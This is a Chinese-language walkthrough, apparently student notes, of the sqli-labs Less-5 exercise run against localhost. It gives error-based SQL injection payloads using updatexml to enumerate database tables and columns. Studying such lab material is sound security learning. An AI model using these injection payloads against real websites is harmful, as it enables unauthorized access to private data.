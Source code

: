 ![image-20220703203442699](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703203442699.png)

#### 5.得知数据库查询数据库里的表

````
语句为：
http://localhost:8080/Less-5/
?id=1' and 
updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema= 'security'),0x7e),1) --+
查出来表有emails,referers,uagents,users
````

![image-20220703204929623](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703204929623.png)

#### 6.然后就把一个个表的内容查出来

##### 6.1在这之前先把表里每列查出来

```
代码如下：
http://localhost:8080/Less-5/
?id=1' and 
http://localhost:8080/Less-5/
?id=1' and 
updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name= 'emails'),0x7e),1) --+
上面的table_name为可变，查哪个表，table_name就等于什么。
下面是email的每一列的列名
```

![image-20220703205502837](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703205502837.png)

```
然后是referers的每一列列名
```

![image-20220703205612237](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703205612237.png)

```
uagents的每一列列名
```

![image-20220703205701949](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703205701949.png)

```
最后是users的每一列的列名
这里发现了一个小问题，明明这表就只有三个列但这查出来的五个列
然后经查数据库发现有另一个叫my的数据库（之前做作业加的忘了删了）里也有一个叫users的表，把那个表的列名也加在里面了。
```

![image-20220703205744621](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220703205744621.png)

```
为了更加准确需要查到我们想要的数据要在where 条件里加入一个table_schema=database()的条件
代码如下：
http://localhost:8080/Less-5/
?id=1' and
 updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name= 'users' and table_schema=database()),0x7e),1) --+
 执行后的效果图如下：
```
